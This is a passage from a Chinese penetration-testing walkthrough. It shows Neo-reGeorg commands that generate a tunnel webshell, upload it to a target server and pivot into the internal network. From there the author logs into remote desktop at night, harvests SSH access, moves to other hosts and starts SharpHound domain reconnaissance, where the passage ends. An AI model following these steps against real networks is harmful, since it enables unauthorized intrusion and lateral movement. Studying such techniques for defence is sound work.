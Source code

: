 reGeorg 是 reDuh 的升级版。主要把内网服务器的端口通过http或https隧道转发到本机。

项目地址：https://github.com/L-codes/Neo-reGeorg

先设置密码，生成 tunnel 的 webshell，并上传到目标服务器：

  * 

    
    
    python neoreg.py generate -k pass

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121220.png)

这个时候直接 VPS 运行，把目标内网流量通过 http 转发到 VPS 的 1080 端口：  

  * 

    
    
    python neoreg.py -k pass -u http://saulgoodman.cn//wls-wsat/tuu.jsp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121221.png)

然后本地 VPS 代理：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121223.png)

说明代理成功了！记住这里是 127.0.0.1 只能本地代理，客户端代理你服务器的 socks 是代理不上的！为了方便我在我再 Windows
上重新代理了一下，方便后续操作！

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121224.png)

这个时候就可以进目标内网了，由于当前目标机器时间是凌晨，且确定没有人在用远程桌面，我直接登陆目标远程桌面：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121225.png)

然后对目标桌面上进行信息搜集发现有 SSH 登陆：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121226.png)

成功又拿下内网其他机器：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121227.png)  
然后换个用户登陆到 200 这台机器：（发现有大哥扫描过了，资产还挺多）  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121228.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121229.png)

发现应该都是 docker，没啥价值！资产收集的差不多了该搜集域内的了！

  

 **SharpHound 对域内进行信息搜集**

  

通过 SharpHound 对域内进行信息搜集：

  * 
